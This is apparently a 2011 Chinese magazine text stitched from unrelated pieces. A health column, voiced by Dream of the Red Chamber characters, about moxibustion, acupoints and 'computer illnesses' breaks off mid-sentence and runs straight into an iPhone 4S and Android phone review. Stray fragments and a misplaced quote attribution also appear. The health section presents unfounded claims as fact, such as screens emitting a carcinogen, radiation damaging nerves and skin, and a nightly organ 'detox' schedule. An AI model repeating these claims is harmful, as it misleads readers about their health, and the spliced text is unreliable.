日本《帝国文库》记载了一个长寿老人过桥的故事：元保十五年九月十一日，在永代桥换架竣工仪式上，三河水泉村百姓满平一家应邀率先过桥，引起轰动。因为满平一家六口人，个个超过百岁。人们问及长寿秘诀，满平笑道：“唯有祖传三里灸耳”，即艾灸足三里。

想学艾灸的话，可以看看周楣声先生的《灸绳》和谢锡亮先生的《实用家庭保健灸法》；“韩国针灸第一人”金南珠先生的《针通经络，灸调阴阳》里讲述了许多针和灸的故事，看一看，可以了解一下艾灸的神奇功效；也可以上网看看汤立新教授的《有艾更健康》系列视频，在优酷网上就有。
网址：http://www.youku.com/playlist_show/id_4481742.html
上论坛也能学到不少东西，如中医艾灸论坛http://www.aiju9.com/

湘云：嗯，人体穴位那么多，而且各有各的功效，一般人要记那么多穴位还真不容易呀。

宝钗：中医博大精深，了解一下经络学说，对养生也有帮助。现在，不少网站都有穴位图及功效介绍（如中医中药秘方网http://www.21nx.com/cam/pic/），有些软件也有此功能。可以看一下，比如，《电脑爱好者》2011年第14期《健康养生从轻松掌握经络穴位开始》就介绍了一款不错的学习经络穴位的软件。

如果实在不了解经络穴位，用“阿是穴”治疗（就是哪儿痛弄哪儿），效果也不错。中医说“痛则不通”，哪个地方痛了，说明那里经络不通，把它弄通了，就不痛了。

湘云：哈哈，这个“阿是穴”我用过！探春姐姐有次突然觉得脖子疼，不能转头了。我刚好看过北京卫视的《养生堂》节目，也学了一点点中医，懂点艾灸的皮毛，就主动请缨帮她艾灸。我帮她揉了一点活络油，然后也没认穴位，就拿着艾条，熏她肩、颈上特别痛的地方，哪儿痛熏哪儿。才弄了一次，她就说脖子松快了不少，可以转一点了；弄第二次，她就恢复得差不多了。不过后来她嫌麻烦不弄了，留下一点点“手尾”，慢慢才好透。

宝钗：肩颈病，还有个一般人不太知道的成因，就是穿露肩背装。夏天有些女孩贪图凉爽或爱美，选择吊带、露背的服装，却不知这对健康有莫大的危害。
因为夏天酷热，人体的毛孔大开，而办公室里空调一般都调得很低；吊带、露背装，会将颈部和后背的一些重要穴位（比如大椎穴、背俞穴）暴露在外，这时，寒气就很容易侵入。

## 小故事：“阿是穴”的典故

中医称“阿是穴”为“不定穴”，指的是没有固定的位置，随病变部位或压痛点而选定的穴位。据说，阿是穴是著名医学家孙思邈发现的。
相传，有一次他给一位腿痛病人扎针。他按古医书所记载的止痛穴位，一个个地试扎针，结果还是丝毫不见效。他一面问病人哪里痛，一面用手沿着大腿轻轻往下掐，当掐到一个部位时，病人突然叫道：“啊……是这里，是这里。”孙思邈立即在这个地方扎了一针，说也怪，病人的疼痛竟然止住了。
病人好奇地问：“这叫什么穴位？”孙思邈笑着说：“你刚才不是说‘啊……是’吗？这个穴位就叫‘阿是穴’！”
“阿是穴”就这样流传于世，沿用至今。

大椎在颈部正后方，是人体的一大关窍，对肩颈的健康至关重要。《针灸大成》说：大椎“主颈项强不得回顾……”，《伤寒论》说“头项强痛，或眩冒……当刺大椎第一间……”。
如果大椎被寒气入侵，轻则出现头痛，颈部僵硬、肩背酸痛等症状，如果体质虚弱而风寒很强的话，就会出现胸闷、气短、哮喘等伤及肺气的症状。

而背俞穴，是五脏六腑之气输注于背部的俞穴，如肺俞、心俞、肝俞等，它们分布于背部正中线（督脉）旁开1.5寸处，其位置与相应脏腑位置的高低基本一致。用这些穴位，能治疗其相应脏腑的病变。可见背俞穴与体内之脏腑关系十分密切。如果后背暴露，相应脏腑的背俞穴受到寒气的入侵，就会造成脏腑深层的疾病。

所以，我们尽量不要让肩颈暴露于外。古人很懂得这个道理，我们看古装戏，从他们穿的衣服就知道，无论多热，他们都会把颈项部位保护好，尤其是女性的服装，更重视这一点。

## 电脑脸

‘唉，我都被工作摧残老了。’惜春抱怨道，她是公司的平面设计师，这份工作，意味着长时间对着电脑，经常加班，才做了几个月，她就发现自己皮肤干燥，眼睛周围有黄褐斑，还有化妆也遮不住的黑眼圈和细眼纹。

宝钗：这也是一种常见的电脑病—电脑脸。

长时间对着电脑，电脑的辐射会令人的皮肤没有光泽，毛孔变大，所以皮肤会干燥，电脑屏幕周围会形成一个静电场，把附近空气中悬浮的灰尘吸入自己的场中，坐在电脑前，我们周围便充满了含有大量灰尘颗粒的空气，这些灰尘可吸附到我们脸部和其他皮肤裸露处，不注意清洁，时间久了，就会产生难看的黄褐斑与皱纹，严重的还会引起皮肤病。

湘云：哇，这么厉害！那要在办公室多条毛巾，不时抽空去洗个脸才行。

宝钗：对，如果有时间，还可以用黄瓜片敷敷眼睛，也可防止黑眼圈。另外上网前不妨涂点护肤乳液，以形成一层‘隔离膜’，减少电脑对皮肤的伤害。

湘云：还得经常开窗通风，经常给电脑搞搞卫生。

宝钗：对，电脑桌表面可用湿布蘸着抗静电剂擦拭；常清洁屏幕和键盘，不使用时将键盘遮盖起来。因为键盘凹凸不平，非常容易积聚灰尘，更会成为皮肤病病菌隐藏的场所。

还有，就是要重视睡眠，晚上11点前一定要睡觉。像长斑、黑眼圈，都与睡眠不足有关系。睡眠对一个人的美容至关重要，可以说任何化妆品和饮食都比不上睡眠对肌肤的保健作用大。

医学研究表明，人体表皮细胞的新陈代谢最活跃的时间是从午夜至清晨2时，而熬夜是最能毁容的。因为彻夜不眠将影响细胞再生的速度，导致肌肤老化。你看看那些明星，哪些显年轻，哪些显老，再看看她们的起居习惯，心里就有数了。

湘云：那中医有什么方法对付黄褐斑和皱纹？

宝钗：中医认为，黄褐斑与肝脾肾3脏有关，脏腑功能失调，气血不足，就会产生黄褐斑。

消除黄褐斑，应该从调和气血、活血化瘀入手。血海、合谷、三阴交、迎香这几个穴位都是治疗黄褐斑的重要穴位。可以对这几个穴位进行按摩，每个穴位按压3~5分钟，每天按压1~2次。做完按摩后，可以把两手掌搓热，用它们在面部揉搓，干洗面部，这样能更好地调和面部气血。

气血不足或运行不畅，同样会引发皱纹。想减少皱纹，可以试试这个按摩的小方法：把两手掌搓热，然后将双手按在额头上，按照‘额头→耳朵→眼睛→耳朵→鼻子→耳朵’的路线反复摩擦面部，做30次左右。再用双手同时按压人迎穴，边按压边缓缓地吐气，重复做30次。也可将两手掌分别放在两边的下颌处，由下颌向喉结处同时移动双掌，摩擦颈部。每天1~2次，经常这样按摩，不仅能消除面部皱纹，还能使面部气血充足，皮肤变得红润、光滑。

湘云：我在网上也看过一个用艾灸治疗黄褐斑的视频：http://v.youku.com/v_playlist/f448174201p17.html

宝钗：另外，从饮食角度考虑，吃素对皮肤也更好。

## 明星素食素语

1.  姜培林：姜培林说，她为保持身材常年吃素，不吃肉，自己感觉体内很干净。
2.  歌手林忆莲：林忆莲虽然当了妈妈，但身材仍不走样，有什么独门绝招呢？原来她吃素。吃素好处很多，不仅可以消瘦一下，还可以彻底改变体质，连带皮肤也可以变好。这样大约7个月瘦了5公斤。吃素减肥虽然要有足够的耐心，但这种慢慢消瘦的方法绝对比快速减肥舒服，健康。
3.  蔡依林（JOLIN）：蔡依林表示，要保持肌肤清透水嫩，首先应当从健康的运动和饮食入手，在饮食方面她是一个素食主义者。
4.  张学友：张学友吃素吃上瘾，对山珍海味毫不垂涎，打算长期茹素让身体继续环保。
5.  周渝民跟着大S吃素：大S前男友周渝民跟着大S吃素后，再没有暴肥的情况出现，前前后后瘦了近20磅。
……

## 鼠标手

鼠标手即腕管综合征，通常表现为食指或中指疼痛、麻木和拇指肌肉出现无力感，发展下去可能导致手部肌肉萎缩。主要是因为每天重复在键盘上打字和移动鼠标，手腕关节因长期重复、反复和过度的活动，逐渐形成腕关节的麻痹和疼痛。

缓解方法和前面说的一样，首先，还是要每隔50分钟休息10分钟，活动活动手指和手腕。比如可以做一些握拳、捏指、甩手等放松手部的动作。其次，要注意姿势正确；再次，还可选用一些根据人体工程学设计的鼠标，配合使用360度自由滑动护腕鼠标垫，以减少伤害。

湘云：在《电脑爱好者》2011年第7期《E族养生经之二》上，还介绍了一种通过设置鼠标灵敏度保护手腕不受伤的方法。

那按摩的话，取什么穴位好呢？

宝钗：治疗腕关节问题，主要从舒筋通络入手，按照‘穴位所在，主治所在’局部取穴方法，可以取内关、大陵、合谷、阳溪这四个穴位。

## 头晕头痛、失眠

宝钗：电脑工作时发出的电磁波，作用于人体，可以损害神经系统，当损害积累到一定程度时，人就会头晕头痛，白天困倦，夜晚难眠。

另外，科学研究证实，电脑的荧屏能产生一种叫溴化二苯并呋喃的致癌物质，伤害人体，也导致头痛。

> 摘自《红楼梦》第七十六回

## 小故事：小布什与睡眠

美国总统小布什，他的作息时间标准极了：一般晚上9时左右准时上床，早上6时多就起床。以至于在一次年度宴会上，被夫人劳拉‘狠狠’了一把，她描述了一个‘典型的’布什之夜：‘晚上9点钟，这位充满活力的先生已经睡在床上，鼾声阵阵了，而我只有收看电视节目《绝望的主妇》。女士们、先生们，我就是一个绝望的家庭主妇。’

所以，爱失眠的人，下次如果在睡前又习惯性地要烦恼这烦恼那，就想一想布什总统吧。然后把你大脑的门闩关上。

此外，爱失眠的人也可试试下面这些方法：睡前烫烫脚。用热水泡脚可以刺激脚上相应的穴位和反射区，起到调节全身的作用。不老明星赵雅芝，保养的秘诀就是：在睡前用热水泡脚。

宝钗：治疗头痛，可用合谷、太冲、太阳、风池、阿是穴。太阳穴是头部的重要穴位，《达摩秘方》将按摩此穴列为‘回春法’，认为常用此法可保大脑的青春常在，使人返老还童。

湘云：在公司没窗户没办法，回家还得注意开窗通风。

宝钗：另外，中午趴在桌上睡觉的时候最好关机，而不只是把屏幕关掉而已。因为只把屏幕关掉是无法杜绝辐射线的，而且趴着睡，头直接对着电脑，辐射的热量就来吹着你了，呵呵。

湘云：其实引起头痛的辐射何止电脑呢？打印机、复印机、手机、电视、微波炉……哪样没有辐射呢？我现在使用手机，一般都用免提，不让手机对着自己的耳朵和头脑，微波炉能不用就不用。唉，好怀念没有辐射的日子呀！

所以，放置电脑的房间最好能安装换气扇，倘若没有，也要注意开窗通风。

哭闹，我们建议凤姐姐，让宝宝听一些爱与感恩的歌曲，比如《感恩一切》《爱的真谛》《好一个乖宝宝》等，每次她都能很快安静下来（肚子很饿或尿湿的情况除外哈），百试不爽。有兴趣的朋友，可以百度一下“爱与感恩歌曲集”。

## 电脑：我是不是该安静地走开

宝钗：其实说了这么多方法，也只能缓解，并不能完全避免电脑病。中医一向认为，“不治已病治未病”，再怎么预防都不如干脆“走开”，离电脑远点。“三十六计，走为上策”嘛。

湘云：那怎么可能呀！现在哪份工作不用电脑呀？总不能所有人都去摆地摊、扫大街吧。

宝钗：我说的是，能走开的时候就走开。

### 谁的工作常饱和，谁家电脑曾闲置

宝钗：我问你，你的工作每天都饱和吗？你每天8小时都在工作吗？

湘云：当然不是啦！偶尔饱和就有可能，天天饱和，那谁受得了呀？公司里估计没有谁是每天都饱和的，不然早辞职了。

宝钗：那你的电脑呢？是不是有闲置的时间？

湘云：没有，电脑是全天开着的。没工作时，就上网看看新闻、八卦，有时也上QQ群聊聊天。其他同事，我看她们有的一空下来就玩游戏、看电影、偷菜什么的。

宝钗：这就是可以“走开”的时间了。

### 游戏诚有趣，偷菜乐更多，若为健康故，二者皆可抛

确实，工作之余，玩玩游戏，上好友的QQ空间偷偷菜，可以打发一下无聊的时间。但是，我们已经知道，电脑对我们的伤害如此之大，要尽量远离它才是。如果说为了工作那是没办法，不工作时，何不远离它呢？走开一下，去帮同事拿份传真、倒杯开水，不是又可以运动，又暂时解放了眼睛和肩颈手吗？还改善了同事关系呢！如果空闲时间更多，拿本好书看一看，还提升了自己呢！

### 新闻：相见一次已足够

宝钗：你喜欢上网看新闻，那请问，你这新闻，通常只看一次，还是看几次？

湘云：我想一想啊。嗯，白天看过的新闻，晚上在家看电视时，通常也会讲到。而且在网上看也不止看一次，相同的新闻，在不同的网页都有报道，一点击链接就连过去了。这样算算，同一个新闻，可能会看上四五遍，其实讲的都差不多。

宝钗：那就是了，其实只看一遍就够了。

湘云：呵呵，那以后也少一点上网看新闻好了。

### QQ群：君子之交淡如水，无事不登三宝殿

宝钗：QQ群也是你爱去的地方，占用了不少时间吧？

湘云：是的，除了上班时间，晚上回家也上，有时还上到12点多。

宝钗：都聊些什么重要内容？能记住吗？

湘云：不过是闲聊。大多数时间是上去打个招呼，再等别人回打招呼，讲的也多数是无关紧要的事。有一次我特意看了一下聊天记录，从晚上8点到10点多，我在一个群里，就说了几句话，发了几个表情，其它都是看别人闲聊。

宝钗：那我们真要学习一下古人的风范了，“君子之交淡如水，无事不登三宝殿”。如果没什么要事，就不上QQ群了。你试一下，半个月不上QQ群，看对你有没影响？

湘云：应该没有影响。呵，上次去一个三线城市出差了一个月，那里根本没网线，不也照样生活工作吗？

### 让我们早睡早起吧

宝钗：防治电脑病，远离它是一方面，另一方面，还要增加我们自身的免疫力。身体要健康，睡眠很重要。俗话说：“药补不如食补，食补不如睡补”，我国古代养生家曾将睡眠养生法喻为益寿延年之“仙方”，“不觅仙方觅睡方”也道出此中真谛。
我们每天上班时间也就8小时，可有些孩子，像芳官龄官她们，年纪小不懂事，上网时间长达10多小时，经常上到半夜一两点，有时甚至上通宵。这一方面，增加了受电脑伤害的时间，另一方面，还错过了睡眠的黄金时间。
专家指出：身体的代谢和排毒，多在熟睡中进行。

1.  晚上9~11时为免疫系统（淋巴）排毒时间，此段时间应安静或听音乐。
2.  晚间11~凌晨1时，肝的排毒，需在熟睡中进行。
3.  凌晨1~3时，胆的排毒，需在熟睡中进行。
4.  凌晨3~5时，肺的排毒。
5.  半夜至凌晨4时为脊椎造血时段，必须熟睡，不宜熬夜，以免抑制废积物的排除。
6.  凌晨5~7时，大肠的排毒，应上厕所排便。

从这里可以看到，如果我们晚上不睡觉，就会影响肝、胆的排毒和脊椎的造血。身体毒素排不出去，不断在体内堆积会怎么样？脊椎不造血会怎么样？后果不用说大家都知道啦。
公司里也有很多人，不是早睡早起，而是晚睡晚起。早上起得晚，睡醒急急忙忙来上班，跟太阳只打了个照面，到了公司，在没窗户的办公室，一呆就是一天；下班时，多半太阳已落山。更甚者，有些孩子到了周末，就晚上熬夜，白天睡觉。俗话说“日光不照临，医生便上门”，这样长期“不见天日”，身体又怎能健康？

湘云：这些孩子真不懂得爱惜自己的身体，新闻都播过小孩子上网过度，以至猝死的消息。我有一次百度“上网猝死”，发现这种事例太多了！

宝钗：所以，我们要自己创造条件，尽量早睡早起，晚上早睡好好排毒造血，早上早起好好看看太阳公公。这样，才有较健康的身体，较高的免疫力，来抵挡电脑的伤害。

### 让电脑将功补过

宝钗：前面我们一直强调，要工作50分钟就休息10分钟，晚上也要早睡。
可是，正在上着网，常常会忘了时间，或是约束不了自己。这时，我们可以借助电脑软件，让它来控制我们上网的时间，让电脑来监控我们的工作并强制我们下机。
很多软件园都有这类软件，比如华军软件园就不错。输入“关机”或“锁屏”进行搜索，就会出来很多相关的软件，可以看到各个软件的好评率、人气指数、授权方式（免费、共享、试用）等，还可以看到网友的评价，再结合软件介绍，我们就能找到适合自己的软件。

```
华军软件园网址：http://www.onlinedown.net/
天空软件园网址：http://www.skycn.com/
多特软件站网址：http://www.duote.com/
```

如果不想专门安装一个软件，还可以用“SHUTDOWN”来强制关机。比如您想让电脑在22:00自动关机，可以点击“开始→运行”，输入“at 22:00 Shutdown -s”，这样，到了晚上10点，电脑就会出现“系统关机”对话框，默认有30秒钟的倒计时并提示您保存工作。

湘云：能提醒我们远离辐射，早睡早起，也算它将功补过了吧！

## 尾声

湘云：宝姐姐，今天聊得真好，不过您说了这么多，我都记不住了。

宝钗：没关系，哪怕只学会一招半式，只要坚持，也会受用无穷的。比如，坚持早睡早起，坚持做眼保健操，坚持每周艾灸一次足三里，做一分受用一分，做十分受用十分。若是一分都不做，懂再多也没用。

## 后记：群芳畅游“姥姥城”

自从那天和宝钗聊了之后，湘云心里一直琢磨着“升降电脑桌”这些东东。这天，她听到一个消息：刘姥姥在城中村开了家“姥姥城”，专卖防治电脑病的设备和用品。这可把她乐坏了，立即召集众姐妹前往。
刘姥姥热情地招呼：姑娘们，欢迎光临！慢慢逛，细细挑，总有一款适合您！

### 防辐射服

晴雯很快相中一款防辐射服。这是一款双重保护防辐射服，外面是金属纤维马甲，里面是纳米银纤维吊裙。产品介绍中说“纳米银纤维材料是市面上防辐射效果最好的材料！可以完全屏蔽手机信号及电脑、复印机、打印机等电子设备产生的电磁辐射！”
晴雯很感兴趣，马上依照说明书，做了两个测试：

1.  测试金属纤维：先在没有防护的情况下，用专业的电磁辐射测试仪测试，结果笔记本电脑的电磁辐射高达两千多，再用金属纤维马甲将测试仪及电脑隔开，电磁辐射立即降至0！
2.  测试纳米银纤维：用纳米银纤维吊裙把手机完全包裹起来，四周包好包紧后，过几分钟迅速取出手机，果然没有信号。

晴雯暗想：“莫非真能达到完全屏蔽？”
正待发问，小二弱弱地说：“姐姐，这防辐射服是给孕妇穿的。”
晴雯嗔道：“本姑娘就不能穿吗？我不但要买，还要买两件，公司一件，家里一件。”
板儿赶紧陪笑：“姐姐息怒，小二，快包起来！”
袭人竖起拇指：“晴雯你真强！其实办公室辐射那么大，我一直也想穿来着，就是怕人笑，不敢穿。”

### 可升降电脑桌、升降椅

香菱被一款可升降电脑桌（配升降椅）吸引住了。
小二：这款电脑桌呀，是专为您这样的白领设计的。它的高度可以随意调节，最低0.6米，最高1.2米，站着、坐着、半蹲着都可以使用。升降椅是配套的，也可以任意调节高度。
香菱：那就是说，我可以按照自己最舒服的姿势，来调整电脑桌和升降椅的高度，而不用长时间保持同一个姿势了？
小二：对！另外，为达到最佳视角，电脑桌的台面还可以倾斜和旋转。
板儿（踌躇满志）：迟些我们还会引进一款在硅谷很热销的立式办公桌。这种立式办公桌，可根据个人身材调整桌面高低，自由选择站立或坐立姿势上班。据我所知，谷歌公司、Facebook公司以及其它公司越来越多的员工，为了健康，纷纷将他们的坐式办公桌换成了立式。这在将来一定会有市场的！
硅谷新潮流：站着工作
http://business.sohu.com/20110927/n320652750.shtml
美国前防长亲身体验“站着上班”
http://news.qq.com/a/20110919/000777.htm

### 人体工程学键盘和鼠标

黛玉在一款写着“根据人体工程学设计”的键盘前停了下来。
黛玉：这种键盘可有什么特别之处？
板儿：普通键盘的主键区，也就是字母键区，整体呈长方形排列，使用时，我们的两个手腕要向内收拢，时间长了非常不舒服。
而这种键盘，是根据人体工程学原理设计的，有两个主键区。这种设计可以让我们在使用键盘时，手腕自然地放置，长时间使用也不会有不适感。
黛玉：从侧面看，这些按键的高度也不一样，中间略高两侧略低。这也与人体工程学有关吗？
板儿：姑娘观察得真细！是的，这样设计，我们的手就能在一个曲率半径较大的弧线上进行操作，非常接近自然状态，非常舒适。
黛玉：可有人体工程学鼠标？
板儿：有！这款垂直鼠标就是依照人体工程学原理设计的。
工程师研究发现，我们平常使用的对称鼠标并不是最舒适的，手腕关节始终处在一个“拧”的状态，时间长了容易得鼠标手。
而垂直设计，让手腕自然伸展，更加符合关节的自然状态；拱形的鼠标，贴合手掌，令经络放松，避免长时间使用鼠标后，虎口与五指过度弯曲僵硬。
不过刚开始使用，可能会不太习惯，需要一段时间的适应。

### 爱与感恩歌曲集

黛玉更关心的，是自己的失眠问题。于是，板儿带着她来到音乐区。
板儿：我们这有轻音乐和爱与感恩歌曲集，爱失眠的人听一听，都非常好。尤其是爱与感恩歌曲集，听了让人心态平和，不烦不躁。说了您不信，有些中医师和心理医师，还来我这买呢！
紫鹃：可不是吹牛？
黛玉：这我倒相信。音乐疗法自古就有，不足为奇，《黄帝内经》就提出“五音疗疾”。

### 小故事：“音乐疗法”

1.  北宋文学家欧阳修患抑郁症，经多方医治，不见疗效。后来他向朋友学抚琴，久而乐之，抑郁症也# 细话“苹果” iPhone 4S “来袭”大猜想

10月5日，苹果在手机领域重新掀起了新一轮“全球热恋”，让iPhone 4S在一夜间成为全球手机玩家竞相追逐的“梦中情人”。可惜的是，iPhone 4S仅拥有常规的软硬件升级，并没有重现昔日iPhone 4初次君临时的那股霸气。正是由于iPhone 4S少了那么几分王者的绝对霸气，让很多虎视高端手机战场的竞争对手以可乘之机，从不同的角度向iPhone 4S吹响了反攻的号角。总之，这个冬天的手机市场绝非iPhone 4S一枝独秀的舞台，在Android阵营中已经出现了更多足以挑战苹果的选手。

# 褒贬参半的iPhone 4S

# 缺乏质变 软硬小升级

没有iPhone 5，也没有廉价版iPhone 4，有的只是iPhone 4的小改款，屏幕和外观均无突破的iPhone 4S。相对iPhone 4，4S主要强化了硬件规格和软件功能（见表1）。硬件方面，iPhone 4S升级到了和iPad 2一样的双核A5处理器（为了控制功耗被降频到800MHz）。虽然内存依旧为512MB，但整体速度仍比iPhone 4更流畅，程序启动速度飞快，网页放大缩小也更平滑。此外，iPhone 4S还升级到了800万像素摄像头，在苹果的优化后效果远非Android阵营同样800万像素的手机可比，而改进的天线设计也解决了“死亡之握”的信号问题。

# 小提示：iPhone 4S能有多赚钱？

根据研究公司的分析，16GB/32GB版本iPhone 4S的成本大约在170/220美元。再来看看实际销售价格：美国iPhone 4S 32GB合约机售价299美元，而同型号的无锁版售价则高达749美元，苹果每卖一台iPhone 4S毛利润可超500美元！虽然iPhone 4S如此“暴利”，但依旧受到了“果粉”的追捧，iPhone 4S的首日预订量就达到了100万部，远远超过了iPhone 4首日60万部预订量的记录，足以让所有手机厂商羡慕嫉妒恨！

软件方面，iPhone 4S加入了智能语音助理Siri功能，可以通过和iPhone 4S说话实现丰富的功能。可惜目前Siri不支持中文识别（苹果表示2012年加入对中文的支持）。此外，新增的iCloud与Apple Store，在国内的速度还是很慢，严重影响了使用体验。希望当iPhone 4S在国内正式发售时，Siri可以加入对中文的完美支持，并解决iOS相关服务在国内过慢的问题。

# 小提示：为什么高端Android手机还不如iPhone 4？

别说iPhone 4S，很多高端的双核Android新机在运行速度和游戏画面上还不如上市一年多的iPhone 4呢，究其原因还是得益于苹果对软硬件的“封闭式”管理。iOS只能工作在苹果自己的硬件平台上，因此iPhone可以针对自己的硬件做出全面优化，而游戏开发商也无需担心兼容性等问题，120%地发挥出硬件的潜力。但Android系统就不成了，谷歌在推出新版系统时要考虑对许多老硬件的兼容性，而游戏开发商好不容易推出新作，也得兼顾各个层次的软硬平台的手机，只能适当降低画面质量确保兼容更多品牌和型号。

如果你正在用iPhone 4，那么笔者不太建议升级到iPhone 4S，因为iPhone 4S能玩的游戏iPhone 4也能玩，而且类似语音助理Siri等新功能在国内也无法使用，反倒不如额外添置一部iPad 3（2012年初发布）或等待下一代iPhone 6；如果你还在用iPhone 3GS或还没用过iPhone产品，那iPhone 4S就是你的首选了，只是国内行货至少也要等年底才能上市，近期购买还需花费更多的银子。

| 规格 | iPhone 4S | iPhone 4 |
|---|---|---|
| 屏幕 | 3.5英寸视网膜，960×640像素 | 3.5英寸视网膜，960×640像素 |
| 处理器 | Apple A5（双核）800MHz | Apple A4（单核）1GHz |
| GPU | POWER SGX543 | PowerVR SGX535 |
| RAM | 512MB | 512MB |
| 内置存储 | 16GB/32GB/64GB | 8GB/16GB/32GB |
| 摄像头 | 800万/30万 | 500万/30万 |
| 蓝牙 | 蓝牙4.0 | 蓝牙2.1+EDR |
| 系统 | iOS5 | 可升级到iOS5 |
| 网络 | GSM/CDMA双模通信 | GSM或CDMA |
| 待机时间 | 待机时间：200小时 2G/3G通话：14/8小时 互联网3G/WiFi：6/10小时 视频/音乐：10/40小时 | 待机时间：300小时 2G/3G通话：14/7小时 互联网3G/WiFi：6/10小时 视频/音乐：10/40小时 |
| 机身尺寸 | 115.2×58.6×9.3mm | 115.2×58.6×9.3mm |
| 重量 | 140g | 137g |

| 硬件 | iPhone 4S | Android高端机 |
|---|---|---|
| 处理器 | 双核800MHz | 双核1.0~1.5GHz |
| 内存 | 512MB | 512MB~1GB |
| 屏幕 | 3.5英寸 | 3.7~4.5英寸 |
| 摄像头 | 800万像素 | 500万~800万像素 |

# 产品篇：从侧面狙击 iPhone 4S 的敌人们

超越iPhone的机会出现了？

由于iPhone 4S没有出现从iPhone 3GS到iPhone 4这般质的飞跃，这也让所有的竞争对手松了一口气：既然综合素质拼不过iPhone 4S，但若抓住某个功能并将其强化，获得比iPhone 4S更高的关注度根本不是问题，避免与iPhone 4S的正面冲突（全面对比），实现“曲线救国”（着重强化某一方面的性能或功能）的目的。

接下来，笔者就向大家介绍几位来自Android阵营的高手，它们可能没有iPhone 4S那般全能的表现，但却或拥有iPhone 4S无法比拟的震撼屏幕、或具备超越iPhone 4S两倍主频的CPU，又或者可以像PSP掌机一样运行Android平台游戏……总之，它们都是在某个功能领域的单项冠军，在自己的优势领域可轻松将iPhone 4S斩于马下，适合拥有个性化需求的用户选择。

小提示：

和iPhone 4S不同，为了保证最大的兼容性，Android平台的软件和游戏无法完全发挥出硬件的潜质，在很长一段时间内很难出现专门针对双核优化的程序，这意味着使用较高端的单核处理器同样可以流畅运行。这就好比一辆豪车（采用双核处理器）可以轻松跑上200公里/小时，但高速公路（Android系统和游戏软件）却限速在120公里/小时，英雄根本没有用武之地，只能在专业的赛车场（评测软件）过把车瘾。在预算充裕时自然是配置越高越好，但倘若你追求性价比，并不一定要迷恋双核，不少采用高通MSM8255（1GHz）单核处理器的产品同样值得选择。总之，表3中的处理器都是不错的选择。

| CPU类型 | GPU类型 | 核心架构 | 备注 |
|---|---|---|---|
| 三星S5PC110 | 1GHz | PowerVR SGX540 | Cortex A8 |
| 高通MSM8255 | 1GHz | Adreno205 | Cortex A8 |
| NVIDIA Tegra 2 | 1GHz | GeForce GPU | Cortex A9 |
| 三星Exynos 4210 | 1.2GHz | Mali400MP | Cortex A9 |
| 高通MSM8260 | 1.2GHz/1.5GHz | Adreno 220 | Cortex A8 |
| 高通MSM8660 | 1.5GHz | Adreno220 | Cortex A8 |
| TI OMAP4430 | 1GHz | PowerVR SGX540 | Cortex A9 |

# 游戏冠军

# 索爱Xperia PLAY Z1i

Gameloft的高清3D大作，论画面质量不逊于索尼PSP这类的专业游戏掌机。但无论iPhone还是Android手机，虽然在性能上足以流畅驾驭这些大作，但用手指戳屏幕的操作形式实在谈不上手感，特别是FPS或格斗类游戏，搓大招、转身、瞄准等操作的效率极其低下。如果你是一个游戏迷，想在手机上随时体验《拳皇》、《恐龙快打》等街机游戏，或者想像PSP一样操作手机，那么来自索尼爱立信的Xperia PLAY Z1i绝对是你的不二选择。

索爱Xperia PLAY Z1i

3599/2099元（行货/水货）

屏幕：4英寸，480×854像素

CPU：高通MSM8255

GPU：Adreno205

RAM/ROM：512MB/1GB

摄像头：500万像素

重量/电池：175g/1500mAh

优点：加入了类似PSP GO的物理按键，用模拟器玩《拳皇》再也不用担心悲催的操作了

缺点：依旧是单核CPU，续航时间偏低

# 立体冠军

# LG P920(Optimus 3D)

毫无疑问，3D显示已经成为时下的潮流趋势之一，无论是液晶电视、电脑显示器还是掌上游戏机，但凡和3D挂上钩就能立刻彰显出尊贵的身份，并能卖上一个好价钱。作为与我们形影不离的手机，为什么不能搭上3D显示的快车呢？而LG P920就是首款支持裸眼3D显示的高端手机，除了具备强大的性能，视觉效果绝对可以让你眼前一亮。

LG P920

4999/2999（行货/水货）

屏幕：4.3英寸，800×480像素

CPU：TI OMAP 4430

GPU：SGX540

RAM/ROM：512MB/8GB

摄像头：双500万像素

重量/电池：168g/1500mAh

优点：支持裸眼3D显示，双500万像素摄像头还能直接拍摄3D照片或视频

缺点：512MB RAM内存偏低，1GB才够给力

LG P920采用了德州仪器的双核平台，性能非常强悍，而且还快人一步加入了3D显示的屏幕，立体的视觉效果相信可以吸引更多用户的关注。当然，LG也深知光有一面3D屏幕还是不够的，于是还在P920背后嵌入了两枚500万像素摄像头，用户可以直接创造3D影像，而且还联手Gameloft，推出了包括“Asphalt 6”在内的7款3D游戏，用户不必担心买了3D手机却没有内容可用的尴尬。

# 显示冠军

# 谷歌Nexus Prime

iPhone 4S延续了Retina的视网膜显示技术，显示效果极为细腻。可惜如今视网膜已经不再是最高端的手机屏幕了，因为720P级别（1280×720像素）的屏幕已经武装在了Android高端新机身上，比如谷歌Nexus Prime（4.65英寸）、HTC Vigor（4.3英寸）、摩托罗拉Droid HD（4.5英寸）、索爱Nozomi（4.3英寸）、LG Optimus LTE（4.65英寸）等新品，都足以在显示的精细程度上超越iPhone 4S。

谷歌Nexus Prime

即将上市

屏幕：4.65英寸，1280×720像素

CPU：三星Exynos或TI OMAP4460

GPU：未知

RAM/ROM：1GB/32GB

摄像头：500万像素

重量/电池：未知

优点：屏幕超大超精细，预装Android 4.0系统

缺点：摄像头规格一般

Nexus Prime（又称三星Galaxy Prime）是谷歌和三星联手打造的第三代自家Android智能手机，除了具备超强的硬件规格以外，还配备了4.65英寸720P震撼屏幕，视觉效果无与伦比。此外，Nexus Prime还是第一款预装Android 4.0系统的手机，并取消了机身上的物理按键，同样具备出众的便携性，也是未来Android阵营反击iPhone 4S的标杆之作。

# 小米手机

1999元

屏幕：4英寸，480×854像素

CPU：高通MSM 8260

GPU：Adreno 220

RAM/ROM：1GB/4GB

摄像头：800万像素

重量/电池：149g/1930mAh

优点：支持双系统，硬件强悍，价格非常实惠

缺点：产量跟不上市场需求，没有前置摄像头和陀螺仪

小米手机最大的亮点就是无敌性价比，在提供双核1.5GHz处理器、1GB内存高端硬件配置的同时价格却只有1999元，性价比足以让所有手机厂商汗颜。此外，小米手机还预装了米聊和金山云服务的功能，每周更新的MIUI系统，以及“超傻瓜”式的刷机方法，让刷机变得非常简单。可惜的是，小米手机的产量跟不上市场需求，除非你之前在小米官网排队预订成功，否则2012年之前基本是买不到这款机器的。

# 纤薄冠军

# 三星Galaxy S2 (i9100)

